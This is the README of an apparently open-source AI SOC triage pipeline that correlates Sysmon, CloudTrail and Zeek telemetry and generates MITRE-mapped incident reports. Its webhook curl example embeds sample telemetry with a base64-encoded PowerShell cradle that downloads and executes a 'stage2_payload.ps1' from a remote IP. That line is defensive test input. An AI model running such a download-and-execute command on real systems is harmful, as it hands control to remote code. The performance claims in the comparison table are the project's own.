

# 🛡️ Autonomous Tier-1 AI SOC Analyst & Threat Investigation Agent

[](https://github.com/ravishkarathnayaka/autonomous-ai-soc-analyst/actions/workflows/ci.yml)
[](https://github.com/ravishkarathnayaka/autonomous-ai-soc-analyst/actions/workflows/security-scan.yml)
[](https://www.python.org/downloads/)
[](LICENSE)
[](https://ollama.com/)

An open-source, production-grade autonomous security operations pipeline. The agent consumes raw heterogeneous security telemetry (**Windows Sysmon**, **AWS CloudTrail**, **Zeek network logs**), extracts key observables, enriches indicators via threat intelligence feeds, models the attack chain using in-memory directed graphs (**NetworkX**), and applies structured Chain-of-Thought (CoT) LLM reasoning to determine True/False Positive verdicts and formulate actionable SOAR containment playbooks.

The entire environment runs **100% locally for $0** using Python, Docker Compose, and local LLMs via Ollama (with a deterministic reasoning provider for air-gapped CI/CD).

---

## 🏛️ Architecture Overview



---

## ⚖️ Traditional Tier-1 SOC vs. Autonomous AI Analyst

| Dimension | Traditional Tier-1 SOC Analyst | Autonomous AI Analyst |
| :--- | :--- | :--- |
| **Mean Time to Triage (MTTT)** | 15 – 45 minutes per alert | **< 800 milliseconds** |
| **Alert Fatigue & Burnout** | Severe (hundreds of alerts/day, missed intrusions) | **Zero fatigue**, consistent 24/7/365 coverage |
| **Telemetry Correlation** | Manual pivot across SIEM, EDR, and CTI portals | **Automated in-memory graph correlation** (NetworkX) |
| **Context Awareness** | Often lacks asset criticality & user role details | **Automatic asset tier & identity privilege lookup** |
| **MITRE ATT&CK Mapping** | Inconsistent or skipped during high alert volume | **Deterministic multi-technique classification** |
| **Containment Formulation** | Manual ticket drafting, human copy-pasting | **Instant SOAR JSON playbook & CLI commands** |
| **Infrastructure Cost** | High labor costs, vendor platform lock-in | **$0 local execution** (Python, Docker, Ollama) |

---

## ⚡ Quickstart Guide

### 1. Prerequisites
- Python 3.11+
- Git
- (Optional) [Ollama](https://ollama.com/) if using local LLM inference

### 2. Installation
```bash
# Clone the repository
git clone https://github.com/ravishkarathnayaka/autonomous-ai-soc-analyst.git
cd autonomous-ai-soc-analyst

# Install dependencies
pip install -r requirements.txt
```

### 3. Run Automated Tests
All unit, graph correlation, and end-to-end integration tests execute deterministically offline without external API keys:
```bash
pytest tests/ -v
```

---

## 🔍 Running Triage on Sample Telemetry

The project includes three realistic telemetry fixtures located in `telemetry_fixtures/`:
1. `true_positive_ransomware.json`: Multi-stage attack (Encoded PowerShell ➔ C2 beacon ➔ LSASS dump ➔ Encrypted `.locked` files).
2. `false_positive_admin.json`: Routine scheduled disk backup script run by `svc-backup`.
3. `cloud_credential_abuse.json`: AWS IAM access key used from a Tor exit relay to create administrative users and stop CloudTrail logging.

### Execute CLI Investigation:

```bash
# 1. Investigate True Positive Ransomware:
python -m analyst_core.orchestrator --alert telemetry_fixtures/true_positive_ransomware.json --output reports/ransomware_report.md

# 2. Investigate False Positive Admin Activity:
python -m analyst_core.orchestrator --alert telemetry_fixtures/false_positive_admin.json --output reports/admin_fp_report.md

# 3. Investigate Cloud Credential Abuse:
python -m analyst_core.orchestrator --alert telemetry_fixtures/cloud_credential_abuse.json --output reports/cloud_abuse_report.md
```

### Using Local Ollama LLM:
Ensure Ollama is running (`ollama run llama3.2`), then pass `--provider ollama`:
```bash
python -m analyst_core.orchestrator --alert telemetry_fixtures/true_positive_ransomware.json --provider ollama --model llama3.2
```

---

## 🌐 Running the FastAPI Service & Web Dashboard

Launch the RESTful API and real-time Analyst Command Center:

```bash
uvicorn api.app:app --host 0.0.0.0 --port 8000 --reload
```

Open your browser:
- **Interactive SOC Analyst Web Dashboard**: [http://localhost:8000/](http://localhost:8000/)
- **Swagger / OpenAPI Documentation**: [http://localhost:8000/docs](http://localhost:8000/docs)
- **Healthcheck Endpoint**: [http://localhost:8000/health](http://localhost:8000/health)

### Ingest Alert via Webhook (cURL Example):
```bash
curl -X POST http://localhost:8000/api/v1/triage \
  -H "Content-Type: application/json" \
  -d '{
    "telemetry": {
      "EventID": 1,
      "Computer": "FIN-WS-04",
      "User": "CORP\\finance_user",
      "Image": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
      "CommandLine": "powershell.exe -enc aWV4IChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vNDUuMzMuMzIuMTU2L3N0YWdlMl9wYXlsb2FkLnBzMScp",
      "DestinationIp": "45.33.32.156",
      "DestinationPort": 443
    }
  }'
```

---

## 🐳 Running with Docker Compose

Deploy the entire containerized stack (Analyst API, Redis queue, and optional local Ollama):

```bash
cd docker
docker compose up -d --build
```

To include the local Ollama LLM container:
```bash
docker compose --profile full-local-llm up -d --build
```

---

## 📋 Sample Autonomous Incident Report

Below is an excerpt of an autonomously generated Markdown investigation report:

```markdown
# Incident Triage & Investigation Report: `inv-7b3f91a2e4`

> **Autonomous AI SOC Analyst - Investigation Receipt**  
> Generated: `2026-10-14 02:16:30 UTC` | Engine: `Autonomous Tier-1 Pipeline v1.0`

## 1. Executive Summary & Verdict

| Metric | Assessment |
| :--- | :--- |
| **Verdict** | 🚨 **TRUE POSITIVE (CONFIRMED ATTACK)** |
| **Calculated Severity** | 🔴 `CRITICAL` |
| **Confidence Score** | `98%` |
| **Telemetry Events Correlated** | `4 records` |
| **Observables Extracted** | `7 indicators` |

**Executive Summary:**  
CRITICAL THREAT: Active ransomware infection confirmed on endpoint 'FIN-WS-04'. The adversary has achieved remote execution, established C2 channel to 45.33.32.156, harvested local credentials from LSASS, and initiated file encryption. Immediate host isolation and enterprise credential rotation are mandatory.

## 2. Root Cause Analysis
Multi-stage intrusion observed on host 'FIN-WS-04'. Initial execution originated via an obfuscated base64-encoded PowerShell process spawned from WINWORD.EXE. The process established outbound Command & Control (C2) beaconing to known malicious infrastructure (45.33.32.156), dumped memory from LSASS.exe for credential harvesting, and commenced high-velocity encryption of user documents with a ransomware extension (.locked).

## 3. MITRE ATT&CK Matrix Alignment
| Tactic | Technique ID | Technique Name | Observed Indicators |
| :--- | :--- | :--- | :--- |
| **Execution** | `T1059.001` | Command and Scripting Interpreter: PowerShell | `powershell.exe`, `-enc` |
| **Credential Access** | `T1003.001` | OS Credential Dumping: LSASS Memory | `lsass.exe`, `procdump` |
| **Command and Control** | `T1071.001` | Application Layer Protocol: Web Protocols | `:443`, `zeek conn` |
| **Impact** | `T1486` | Data Encrypted for Impact | `.locked` |

## 4. Actionable Containment Playbook (SOAR Ready)
| Step | Action Type | Target | Urgency | Description |
| :---: | :--- | :--- | :---: | :--- |
| 1 | **ISOLATE_HOST** | `FIN-WS-04` | `CRITICAL` | Sever network connectivity of the compromised endpoint via EDR containment. |
| 2 | **TERMINATE_PROCESS** | `PowerShell / Ransomware PID` | `CRITICAL` | Kill active adversary processes and memory dumpers. |
| 3 | **BLOCK_IP** | `45.33.32.156` | `HIGH` | Block C2 destination IP at perimeter firewall and DNS sinkhole. |
| 4 | **RESET_PASSWORD** | `Compromised Endpoint Users` | `HIGH` | Enforce immediate password reset and invalidate Kerberos tickets. |
```

---

## 📂 Repository Layout

```text
├── .github/
│   └── workflows/
│       ├── ci.yml                 # Code linting, type checks, and pytest test suite
│       └── security-scan.yml      # Security scanning with Trivy and Gitleaks
├── docker/
│   ├── Dockerfile                 # Multi-stage secure Docker container
│   ├── docker-compose.yml         # Local stack: SOC Analyst API, Redis, and Ollama
│   └── .env.example               # Environment variables template
├── analyst_core/
│   ├── __init__.py
│   ├── orchestrator.py            # Master controller coordinating ingestion, correlation, and LLM reasoning
│   ├── state.py                   # Pydantic v2 schemas tracking investigation state and evidence
│   ├── parsers/
│   │   ├── __init__.py
│   │   ├── sysmon_parser.py       # Normalizes Windows Sysmon process creation, network, and file logs
│   │   ├── cloudtrail_parser.py   # Normalizes AWS IAM and compute management API events
│   │   └── zeek_parser.py         # Normalizes Zeek connection and DNS log records
│   ├── enrichment/
│   │   ├── __init__.py
│   │   ├── cti_client.py          # Queries CTI feeds (AbuseIPDB, VT, OTX) with local caching
│   │   └── internal_context.py    # Resolves asset criticality tiers, business units, and user roles
│   ├── correlation/
│   │   ├── __init__.py
│   │   ├── attack_graph.py        # NetworkX directed graph linking processes, IPs, and users
│   │   └── mitre_mapper.py        # Maps correlated events to MITRE ATT&CK tactics & techniques
│   ├── reasoning/
│   │   ├── __init__.py
│   │   ├── prompt_templates.py    # Structured Chain-of-Thought prompts enforcing JSON schemas
│   │   └── triage_engine.py       # Pluggable reasoning engine (Ollama or Deterministic Mock)
│   └── reporting/
│       ├── __init__.py
│       └── incident_report.py     # Generates executive Markdown summaries and SOAR JSON playbooks
├── api/
│   ├── __init__.py
│   ├── app.py                     # FastAPI interface accepting webhooks and serving dashboard UI
│   └── schemas.py                 # Pydantic schemas for API requests and triage receipts
├── telemetry_fixtures/
│   ├── true_positive_ransomware.json # Encoded PowerShell -> C2 beacon -> LSASS dump -> file encryption
│   ├── false_positive_admin.json     # Routine scheduled administrative backup script
│   └── cloud_credential_abuse.json   # AWS IAM key usage from Tor exit node invoking admin APIs
├── tests/
│   ├── test_parsers.py            # Unit tests for Sysmon, CloudTrail, and Zeek normalization
│   ├── test_attack_graph.py       # Unit tests verifying NetworkX graph links and causal chains
│   ├── test_triage_engine.py      # Unit tests evaluating verdict logic using mock provider
│   └── test_end_to_end_triage.py  # Integration tests running full workflow on all fixtures
├── requirements.txt
├── pyproject.toml
└── README.md                      # Comprehensive architecture, triage workflow, and guide
```

---

## 🔒 Security & Privacy Guarantee
- **$0 Zero Cloud API Fees**: Runs with local reasoning models; no prompt telemetry is transmitted to third parties unless external CTI API keys are explicitly configured.
- **Air-Gapped CI Readiness**: Deterministic offline threat databases and reasoning providers guarantee 100% reproducible test passes in private CI/CD environments.

---

## 📄 License
This project is licensed under the [MIT License](LICENSE).
